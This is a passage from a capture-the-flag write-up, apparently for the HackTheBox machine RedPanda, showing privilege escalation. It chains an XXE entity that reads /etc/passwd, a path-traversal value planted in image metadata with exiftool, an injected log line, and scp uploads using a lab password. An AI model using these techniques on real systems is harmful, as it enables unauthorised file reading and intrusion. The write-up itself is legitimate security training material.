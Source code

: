 ![](/img/image-20221122070855427.png)

This defines an entity `foo` that is the contents of a file. When the
program processes this, the `<root>` field should get the contents of
`/etc/passwd`, and then that's written back to the file.

#### Image

I'll download one of the images from the site and name it `0xdf.jpg`.
I'll update the metadata using `exiftool` so that the path the program
looks for finds `0xdf_creds.xml` and not one of the intended ones:



    oxdf@hacky$ cp florida.jpg 0xdf.jpg 
    oxdf@hacky$ exiftool -Artist="../tmp/0xdf" 0xdf.jpg 
    Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - 0xdf.jpg
        1 image files updated
    oxdf@hacky$ exiftool 0xdf.jpg | grep Artist
    Artist                          : ../tmp/0xdf



#### Malicious Log

To inject into the logs, I could figure out how to make requests that
get logged and then modify my user-agent with `||` to give control over
the uri field, but that's not necessary, as the log file is writable by
the logs group:



    woodenk@redpanda:/opt/panda_search$ ls -l redpanda.log 
    -rw-rw-r-- 1 root logs 1 Nov 22 11:48 redpanda.log



I'll write a log that points to my image file:



    woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log



#### Execute

I'll upload the two files I created into `/tmp` using `scp` with the
creds identified in the web source (though I could also just use a
Python webserver and `wget` just as easily):



    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf.jpg woodenk@10.10.11.170:/tmp/
    oxdf@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/



The next time the cron runs, it will parse that log, and the `uri`
variable will be `/../../../../../../tmp/0xdf.jpg`. That will be used to
build a path which is
`/opt/panda_search/src/main/resources/static/../../../../../../tmp/0xdf.jpg`,
which is effectively `/tmp/0xdf.jpg`.
